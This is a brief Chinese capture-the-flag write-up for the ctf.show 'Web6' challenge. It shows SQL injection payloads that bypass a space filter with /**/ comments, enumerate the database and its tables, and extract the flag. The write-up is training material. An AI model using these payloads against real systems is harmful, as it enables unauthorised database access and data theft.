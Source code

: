 ```yaml
---
title: "Web6  @WEB"
date: 2023-07-22
draft: false
author: "Goby"
tags: ["web","ctf.show"]
---
```


 SQL注入题，过滤了空格，使用联合注入，语句中的空格用/**/代替即可

1、判断是否存在注入

```sql
a'/**/or/**/true/**/#
```

![](/ctf.show/11/1.webp)

2、查询数据库名

```sql
a'/**/union/**/select/**/1,database(),3/**/#
```

![](/ctf.show/11/2.webp)

3、查询数据库中的表名

```sql
a'union/**/select/**/1,(select(group_concat(table_name))from/**/information_schema.tables/**/where/**/table_schema='web2'),3#
```

![](/ctf.show/11/3.webp)

4、查询表的内容,拿到flag

```sql
a'/**/union/**/select/**/1,(select/**/flag/**/from/**/flag),3/**/#
```

![](/ctf.show/11/4.webp)


